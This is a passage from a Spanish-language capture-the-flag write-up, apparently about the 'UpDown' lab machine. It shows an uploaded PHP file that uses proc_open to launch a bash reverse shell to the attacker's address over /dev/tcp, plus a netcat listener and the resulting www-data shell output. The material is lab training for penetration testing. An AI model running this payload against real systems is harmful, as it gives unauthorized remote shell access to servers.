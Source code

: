 ```php

    echo "command returned $return_value\n";
}
?>
```

Lo subimos, lo abrimos y nos debería llegar dos trazas *ICMP*:

```bash
sudo tcpdump -n icmp -i  tun0
00:58:21.314558 IP 10.10.11.177 > 10.10.14.127: ICMP echo request, id 2, seq 1, length 64
00:58:21.314683 IP 10.10.14.127 > 10.10.11.177: ICMP echo reply, id 2, seq 1, length 64
```

Como ya sabemos que funciona, nos enviaremos una *reverse shell* con el comando `bash -c "bash -i >& /dev/tcp/<ip_tun0>/<puerto_deseado> 0>&1"` :

```php
<?php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);

$cwd = '/tmp';
$env = array('some_option' => 'aeiou');
$process = proc_open('bash', $descriptorspec, $pipes, $cwd, $env);

if (is_resource($process)) {
    // $pipes now looks like this:
    // 0 => writeable handle connected to child stdin
    // 1 => readable handle connected to child stdout
    // Any error output will be appended to /tmp/error-output.txt

    fwrite($pipes[0], 'bash -c "bash -i >& /dev/tcp/10.10.14.127/443 0>&1"');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);

    echo "command returned $return_value\n";
}
?>
```

Antes de subirlo, nos ponemos en escucha con *netcat* por el puerto que hayamos elegido. Finalmente, subimos el archivo y al visualizarlo nos debería de haber llegado una *shell*:

```bash
sudo nc -nlvp 443
[sudo] password for r1pfr4n: 
listening on [any] 443 ...
connect to [10.10.14.127] from (UNKNOWN) [10.10.11.177] 36148
bash: cannot set terminal process group (911): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/tmp$ 
```
